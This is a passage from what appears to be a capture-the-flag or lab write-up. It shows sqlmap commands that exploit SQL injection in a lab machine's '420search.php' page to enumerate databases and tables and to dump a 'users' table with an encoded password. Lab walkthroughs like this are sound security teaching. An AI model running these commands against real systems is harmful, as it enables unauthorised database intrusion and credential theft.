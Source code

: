 The backend DBMS was identified as **MySQL >= 5.5** running on **Linux Debian 8 (jessie)** with **Apache 2.4.10**.

### Enumerating Databases

I used `sqlmap` to list the available databases:

\`\`\`bash
sqlmap -u "http://192.168.1.142/kzMb5nVYJw/420search.php?usrtosearch=root" --batch --dbs
\`\`\`

**Available Databases:**
-   `information_schema`
-   `mysql`
-   `performance_schema`
-   `phpmyadmin`
-   `seth`

The `seth` database looked promising.

### Enumerating Tables in `seth` Database

I enumerated tables within the `seth` database:

\`\`\`bash
sqlmap -u "http://192.168.1.142/kzMb5nVYJw/420search.php?usrtosearch=root" --batch --tables -D seth
\`\`\`

**Table in `seth` database:**
-   `users`

### Dumping Data from `seth.users`

I dumped the data from the `users` table in the `seth` database:

\`\`\`bash
sqlmap -u "http://192.168.1.142/kzMb5nVYJw/420search.php?usrtosearch=root" --batch --dump -D seth -T users
\`\`\`

**Dumped Data:**
\`\`\`
Database: seth
Table: users
[2 entries]
+----+---------------------------------------------+--------+------------+
| id | pass                                        | user   | position   |
+----+---------------------------------------------+--------+------------+
| 1  | YzZkNmJkN2ViZjgwNmY0M2M3NmFjYzM2ODE3MDNiODE | ramses | <blank>    |
| 2  | --not allowed--                             | isis   | employee   |
+----+---------------------------------------------+--------+------------+
\`\`\`
